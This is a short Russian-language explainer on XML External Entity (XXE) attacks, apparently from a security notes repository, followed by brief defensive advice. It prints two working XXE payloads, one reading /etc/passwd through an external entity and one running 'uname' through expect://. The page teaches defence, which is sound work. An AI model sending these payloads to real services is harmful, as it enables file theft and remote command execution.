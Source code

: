 # XML External Entity

Атака на уязвимые парсеры **XML**, где уязвимость следствие багов или пренебрежения настройками парсера. При этом в **XML** попадает пользовательский ввод.

## Механизм

Допустим сервис принимает на вход **XML** объект, например для создания сущности:  

    <creds>
        <user>Ed</user>
        <pass>mypass</pass>
    </creds>

и в случае успеха возвращает его же.  

В этом случае атакующий может дополнить объект полями включения внешних сущностей:  

    <source lang="xml"><?xml version="1.0"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
    <!ENTITY <b>xxe</b> SYSTEM <b>"file:///etc/passwd</b>" >]>
    <creds>
        <user><b>&xxe;</b></user>
        <pass>mypass</pass>
    </creds>

Тогда в ответе сервера придет содержимое файла `/etc/passwd`  

Либо можно вызвать **RCE** (Remote code execution)

    <?xml version="1.0"?>
    <!DOCTYPE foo [ <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "expect://uname" >]>
    <creds>
        <user>&xxe;</user>
        <pass>mypass</pass>
    </creds>

в ответе придет содержимое команды `uname`  

## Защита

* Обновлять используемый **XML**-парсер
* Не пренебрегать его настройкой, поглядывая в документацию
* Стараться использовать максимально глупый **XML**-парсер
* Не использовать **XML**, тк у него слишком много возможностей

[← Назад](../README.md)